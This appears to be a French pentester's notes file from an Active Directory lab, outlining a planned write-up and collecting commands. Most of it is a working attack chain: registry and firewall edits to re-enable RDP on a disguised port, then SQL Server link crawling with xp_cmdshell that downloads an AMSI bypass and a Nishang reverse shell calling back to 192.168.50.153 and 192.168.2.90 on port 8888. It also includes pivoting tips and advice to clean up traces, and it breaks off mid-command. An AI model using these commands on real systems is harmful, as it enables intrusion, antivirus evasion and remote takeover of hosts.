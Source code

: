 
-----------------


-privesc de la machine puis ssf avec proxychains
-Parler des tools utilisés (ceux dans le Rep tools de la VM)
-Parler des façons unintended d avoir pown le lab
-Parler des sites notamment ceux de harmjoy, S4U2Pwnage, ...
-mettre des lignes de commandes utiles (des notes du lab, de keepnote - powershell et domain local enumeration)
-faire un article sur les commandes MSSQL (RPC OUT, OPENROWSET, EXECUTE AS)
-use maximum les lolbin (lien sur le site des lolbins)
-try to clean after you passed
-netsh pour les pivots
-le trick pour réactiver 3389 sans reboot (le mieux, desactiver winrm, utiliser smbexec en modifiant le port pour pivot 4445, et changer le port TermService sur 5985 car non filtré):
Depuis un WinRM:
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1
Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\" -Name PortNumber -Value 5985
New-NetFirewallRule -DisplayName "Remote Desktop - User Mode (TCP-In) 8888" -Direction Inbound –Protocol TCP -Profile Any –LocalPort 8888 -Action allow
New-NetFirewallRule -DisplayName "Remote Desktop - User Mode (UDP-In) 8888" -Direction Inbound –Protocol UDP -Profile Any –LocalPort 8888 -Action allow
sc.exe stop WinRM

Depuis un smbexec:
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\Windows\system32>netstat -an

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5985           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49670          0.0.0.0:0              LISTENING
  TCP    0.0.0.0:49671          0.0.0.0:0              LISTENING


-ls \\DC\pipe\spoolss

'UFC-SQLDEV' is not configured for RPC OUT.
spoolss DC n'est pas activé sur les DCs, mais l'est sur les serveurs

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"whoami""""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Cus
tomquery

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"New-Object System.Net.Sockets.TcpClient(''192.168.2.90'', ''445'')""
""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Customquery

Get-SQLServerLinkCrawl -Instance ufc-sqldev -Verbose -Query "EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C """"iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.15
3:8080/amsi-bypass.ps1'');[Bypass.A_M_S_I]::Disable();iex (New-Object Net.WebClient).DownloadString(''http://192.168.50.153:8080/nishang/Shells/Invoke-PowerShellTcp.ps1'');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.50.153 -Port
 8888""""'" -QueryTarget AC-DBBUSINESS | Select -ExpandProperty Customquery

EXEC xp_cmdshell 'powershell.exe -ep bypass -noprofile -C "iex (New-Object Net.WebClient).DownloadString(''http://192.168.2.90:8080/amsi-bypass.ps1'');[Bypass.A_M_S_I]::Disable();iex (New-Object Net.WebClient).DownloadString(''http://192.168.2.90:8080/nishang/Shells/Invoke-PowerShellTcp.ps1'');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.2.90 -Port 8888"'

Get-ChildItem -Path .\ -Filter dbbackup.sql -Recurse -ErrorAction SilentlyContinue -Force
Invoke-Sq